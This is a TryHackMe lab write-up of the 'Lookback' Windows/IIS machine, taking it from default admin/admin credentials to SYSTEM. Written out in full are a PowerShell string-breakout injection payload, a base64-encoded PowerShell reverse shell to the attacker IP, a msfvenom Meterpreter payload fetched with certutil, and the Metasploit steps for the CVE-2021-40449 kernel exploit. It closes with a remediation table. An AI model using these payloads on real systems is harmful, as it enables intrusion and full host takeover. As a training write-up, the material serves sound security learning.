








# Lookback — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.152.3 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary

**Lookback** is a TryHackMe machine presented as a production Exchange/IIS server flagged for a vulnerability test. Nikto surfaces a default admin/admin account left active on the internal /Rpc endpoint, and reusing it against the Basic Auth prompt on /test unlocks an internal "Log Analyzer" diagnostic page. That page builds a PowerShell Get-Content call directly from unsanitized user input, allowing a string-breakout command injection that executes code as the IIS worker process. Chaining that injection into an encoded PowerShell reverse shell, and then a Meterpreter payload pulled through the same foothold, gives a stable session as the domain account running the site. Migrating into a native 64-bit process and running a local exploit suggester surfaces CVE-2021-40449, which escalates the session straight to SYSTEM.

**Attack chain:** Default Credentials (admin/admin) → Log Analyzer Command Injection → Reverse Shell → Meterpreter → CVE-2021-40449 → SYSTEM

## 1. Reconnaissance

A full TCP scan showed an IIS site, an HTTPS service, and RDP, with certificate and NTLM details pointing at a Windows host:

```
nmap -p- -Pn -sS -sV -sC -vvv -oN scan.txt 10.67.152.3

PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  https?        syn-ack ttl 126
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7
| Subject Alternative Name: DNS:WIN-12OUO7A66M7, DNS:WIN-12OUO7A66M7.thm.local
| Issuer: commonName=WIN-12OUO7A66M7
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-01-25T21:34:02
| Not valid after:  2028-01-25T21:34:02
| MD5:     84e0 805f 3667 c38f d820 4e7c 1da0 4215
| SHA-1:   0845 8fd9 d9bf c4c6 48db 1f82 d3e7 324e a924 52d7
|_SHA-256: 79e6 37e6 a043 6c39 f95f 682d e545 27d9 5c90 9412 e173 45a0 acbe c506 2094 7389
3389/tcp open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7.thm.local
| Issuer: commonName=WIN-12OUO7A66M7.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-20T18:05:35
| Not valid after:  2027-05-22T18:05:35
| MD5:     a236 4aed b6a1 a3ca 36c2 b3e0 a197 b20a
| SHA-1:   b586 8fc1 c6fc 74b7 bfaf b0d6 0af5 cdf7 34ce b28f
|_SHA-256: 291d ff32 9760 169f 8bae 0291 6a80 df0c 9c2c b755 7559 346d bf57 7cec 1f43 ac49
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: WIN-12OUO7A66M7
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: WIN-12OUO7A66M7.thm.local
|   DNS_Tree_Name: thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-11-21T18:20:49+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
```

The certificate on 443 and the RDP NTLM banner both point at `WIN-12OUO7A66M7.thm.local` in the `THM` domain, so the hostname was added to `/etc/hosts`:

```
sudo nano /etc/hosts
```

```
10.67.152.3     WIN-12OUO7A66M7.thm.local thm.local
```

## 2. Default Credentials on /Rpc and /test

A directory brute-force against the HTTPS service turned up a Basic Auth-protected path:

```
gobuster dir -u https://10.67.152.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 0 -k

test                 (Status: 401) [Size: 1293]
```

A `Nikto` scan against port 80 went further, flagging a default account left active on the Exchange RPC endpoint:

```
nikto -h 10.67.152.3
- Nikto v2.6.1
---------------------------------------------------------------------------
+ Target IP:          10.67.152.3
+ Target Hostname:    10.67.152.3
+ Target Port:        80
+ Platform:           Windows
+ Start Time:         2026-11-21 14:25:17 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/10.0
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [000287] /test: Retrieved x-powered-by header: ASP.NET.
+ [999100] /Autodiscover/Autodiscover.xml: Uncommon header(s) 'x-feserver' found, with contents: WIN-12OUO7A66M7.
+ [700025] /Rpc: Default account found for '' at (ID 'admin', PW 'admin'). Generic account discovered.. See: CWE-16
+ [000287] /Rpc: Retrieved x-aspnet-version header: 4.0.30319.
+ [999100] /Rpc: Uncommon header(s) 'request-id' found, with contents: 802dea5d-fd0f-43e1-a9c9-fbd0c8a9c6b8.
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [007342] /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
+ [007352] /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ 8027 requests: 0 errors and 12 items reported on the remote host
---------------------------------------------------------------------------
+ 1 host(s) tested
```

The same `admin`/`admin` pair worked against the Basic Auth prompt on `/test`, revealing a target file and an internal diagnostic tool:





## 3. Remote Code Execution via Log Analyzer

The `Log Analyzer`'s `Path` field feeds straight into a `Get-Content` call. An initial attempt to chain a command with `&` only became part of the file path, but the resulting error leaked the exact PowerShell expression being built:

```
BitlockerActiveMonitoringLogs & whoami

Get-Content : Cannot find path 'C:\BitlockerActiveMonitoringLogs & whoami' because it does not exist.
At line:1 char:1
+ Get-Content('C:\BitlockerActiveMonitoringLogs & whoami')
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\BitlockerAct...ngLogs & whoami:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
```

Closing the open string and function call with `');`, adding a real command, and commenting out everything the template still appended with `#` broke out of the path context and executed code, confirmed by the current working directory of the IIS worker process:

```
pwned'); pwd #

Get-Content : Cannot find path 'C:\pwned' because it does not exist.
At line:1 char:1
+ Get-Content('C:\pwned'); pwd #')
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\pwned:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand

Path
----
C:\windows\system32\inetsrv
```

## 4. Reverse Shell as thm\admin

The same injection point was used to run a base64-encoded PowerShell TCP reverse shell, caught with a netcat listener:

```
powershell -e JABFAHIAcgBvAHIAVgBpAGUAdwA9ACIATgBvAHIAbQBhAGwAVgBpAGUAdwAiADsAJABFAHIAcgBvAHIAQQBjAHQAaQBvAG4AUAByAGUAZgBlAHIAZQBuAGMAZQA9ACIAQwBvAG4AdABpAG4AdQBlACIAOwAkAGMAPQBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMwAxAC4AMQA5ADMAIgAsADQANAA0ADQAKQA7ACQAcwA9ACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAPQAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAPQAkAHMALgBSAGUAYQBkACgAJABiACwAMAAsACQAYgAuAEwAZQBuAGcAdABoACkAKQAtAG4AZQAwACkAewAkAGQAPQAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiACwAMAAsACQAaQApADsAdAByAHkAewAkAG8APQBpAGUAeAAgACQAZAAgADIAPgAmADEAIAAzAD4AJgAxACAANAA+ACYAMQAgADUAPgAmADEAIAA2AD4AJgAxAHwATwB1AHQALQBTAHQAcgBpAG4AZwB9AGMAYQB0AGMAaAB7ACQAbwA9ACQAXwB8AE8AdQB0AC0AUwB0AHIAaQBuAGcAfQBpAGYAKABbAHMAdAByAGkAbgBnAF0AOgA6AEkAcwBOAHUAbABsAE8AcgBFAG0AcAB0AHkAKAAkAG8AKQApAHsAJABvAD0AIgAiAH0AJABwAD0AIgBQAFMAIAAiACsAKABwAHcAZAApAC4AUABhAHQAaAArACIAPgAgACIAOwBbAGIAeQB0AGUAWwBdAF0AJABzAGIAPQAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAbwArACQAcAApADsAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsAJABzAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAC4AQwBsAG8AcwBlACgAKQA=
```





Browsing `dev`'s Desktop surfaced a to-do note and a readable file:





Checking identity confirmed the shell was running as a domain account:

```
whoami

thm\admin
```

A privilege check showed little room to escalate on its own:

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                        State   
============================= ================================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token      Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege     Add workstations to domain         Disabled
SeAuditPrivilege              Generate security audits           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking           Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set     Disabled
```

## 5. Privilege Escalation to SYSTEM

A `Meterpreter` payload was generated for a fuller post-exploitation foothold:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.131.193 LPORT=5555 -f exe -o virus.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 355 bytes
Final size of exe file: 7168 bytes
Saved as: virus.exe
```

`C:\` was writable, so a directory was created there to stage the payload:

```
mkdir Temp

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/21/2026  11:58 AM                Temp
```

The file was served from the attacking machine:

```
python -m http.server
```

and pulled onto the target with `certutil`:

```
certutil -split -urlcache -f http://192.168.131.193:8000/virus.exe virus.exe

CertUtil: -URLCache command completed successfully.
```

A `multi/handler` was configured to catch the callback:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.131.193
set lport 5555
```

Running the payload from the existing shell triggered the callback:

```
./virus.exe
```

The handler caught it and completed the handoff into `Meterpreter`:

```
exploit

[*] Started reverse TCP handler on 192.168.131.193:5555
[*] Sending stage (203455 bytes) to 10.67.152.3
[*] Meterpreter session 1 opened (192.168.131.193:5555 -> 10.67.152.3:14553) at 2026-11-21 15:03:00 -0500
```

`sysinfo` confirmed the target and a 32-bit/64-bit mismatch worth fixing before trying kernel exploits:

```
sysinfo

Computer        : WIN-12OUO7A66M7
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : THM
Logged On Users : 11
Meterpreter     : x86/windows
```

`ps` was used to find a native x64 process owned by the same account:

```
ps

 PID    PPID   Name               Arch  Session  User       Path
 ---    ----   ----               ----  -------  ----       ----
 4128   14592  virus.exe          x86   0        THM\admin  C:\Temp\virus.exe
 4828   10480  powershell.exe     x64   0        THM\admin  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 10480  2952   w3wp.exe           x64   0        THM\admin  C:\Windows\System32\inetsrv\w3wp.exe
 11760  4828   conhost.exe        x64   0        THM\admin  C:\Windows\System32\conhost.exe
 14592  4828   powershell.exe     x64   0        THM\admin  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

`w3wp.exe` (PID 10480) fit, so the session was migrated into it:

```
migrate 10480

[*] Migrating from 4128 to 10480...
[*] Migration completed successfully.
```

`local_exploit_suggester` was selected to check for applicable local privilege escalation exploits:

```
bg
use post/multi/recon/local_exploit_suggester
set session 1
```

Running it checked every local exploit against the session and flagged several as viable:

```
exploit

[*] 10.67.152.3 - Collecting local exploits for x64/windows...
[*] 10.67.152.3 - 267 exploit checks are being tried...
[+] 10.67.152.3 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[+] 10.67.152.3 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable. Version Windows Server 2019 appears vulnerable
[+] 10.67.152.3 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable. Version Windows Server 2019 appears vulnerable
[+] 10.67.152.3 - exploit/windows/local/cve_2020_17136: The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[+] 10.67.152.3 - exploit/windows/local/cve_2021_40449: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[+] 10.67.152.3 - exploit/windows/local/cve_2022_21882_win32k: The target appears to be vulnerable. Version Windows Server 2019 appears vulnerable
[+] 10.67.152.3 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable. Version Windows Server 2019 appears vulnerable
[+] 10.67.152.3 - exploit/windows/local/cve_2024_30085_cloud_files: The target appears to be vulnerable. Version Windows Server 2019 appears vulnerable
[+] 10.67.152.3 - exploit/windows/local/cve_2024_30088_authz_basep: The target appears to be vulnerable. Version detected: Windows Server 2019. Revision number detected: 107
[+] 10.67.152.3 - exploit/windows/local/cve_2024_35250_ks_driver: The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2019
[*] Running check method for exploit 74 / 74
```

The earlier exploits were tried and failed; `cve_2021_40449` was tried next:

```
use exploit/windows/local/cve_2021_40449
set session 1
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.131.193
set lport 6666
```

Launching it triggered the kernel exploit and handed back a privileged session:

```
exploit

[*] Started reverse TCP handler on 192.168.131.193:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[*] Launching netsh to host the DLL...
[+] Process 9344 launched.
[*] Reflectively injecting the DLL into 9344...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (255679 bytes) to 10.67.152.3
[*] Meterpreter session 2 opened (192.168.131.193:6666 -> 10.67.152.3:15832) at 2026-11-21 15:22:31 -0500
```

Confirming the new session's identity and reading the target file from the Administrator's Documents:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Default `admin`/`admin` account left active on the `/Rpc` endpoint and reused on `/test` | Remove or rotate default service accounts before going to production; enforce unique credentials per environment |
| A `Log Analyzer` diagnostic page builds a PowerShell `Get-Content` call directly from unsanitized user input | Never build a PowerShell expression by concatenating raw user input; validate and allowlist the input instead, and strip diagnostic pages from production, as the server's own to-do list already flagged |
| The IIS application pool runs as a domain account (`thm\admin`) instead of a low-privilege built-in identity | Run application pools under `ApplicationPoolIdentity` or a dedicated low-privilege account, never a domain user |
| Windows Server 2019 build left unpatched against `CVE-2021-40449` | Apply the pending OS security updates and keep patch management current |
